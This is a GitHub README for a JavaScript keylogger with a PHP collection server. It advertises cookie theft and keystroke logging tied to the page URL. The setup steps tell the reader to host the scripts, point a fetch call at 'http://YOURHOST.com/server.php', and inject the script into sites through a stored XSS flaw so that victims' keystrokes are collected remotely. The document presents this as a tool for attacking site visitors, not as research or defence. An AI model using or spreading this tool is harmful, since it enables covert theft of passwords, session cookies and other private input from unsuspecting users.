 # JS-KEYLOGGER
 JS-Keylogger monitoring url and stealing cookie and more keys

![js](https://img.shields.io/badge/Language-JS-blue?style=for-the-badge&logo=javascript)
![PHP](https://img.shields.io/badge/Language-PHP-blue?style=for-the-badge&logo=php)
<img alt="logo" align="left" width="300" height="300" src="https://github.com/K3rnel-Dev/JS-KEYLOGGER/blob/main/img/logo.png">
<h1>JS-KEYLOGGER</h1>

### JS-KEYLOGGER ABOUT
> EN:
> Javascript keylogger supports cookie stilling and url monitoring
> from which the keys were pressed
> RU:
> Javascript кейлоггер для записывания клавиш поддерживает стиллинг куки и мониторинг url
> с которого были нажаты клавиши
</br>

<img alt="screen" align="center" src="https://github.com/K3rnel-Dev/JS-KEYLOGGER/blob/main/img/meme.jpg">



#### How to f#ck!ng using this???
```
1) You must have a remote server to run both scripts,before that, you can set server.php and > keylogger.js on your remote server.
2) Change the file keylogger.js following lines on your host:
```
```php
10 fetch('http://YOURHOST.com/server.php', {
```
```
3) If you can founded the vulnerable STORED XSS you can be put your remote js and
> sniffing keystrokes on site, the recorded keys will be in your remote server in the   >keylog.txt file.
```


## 0xTHX
Thanks for watching:D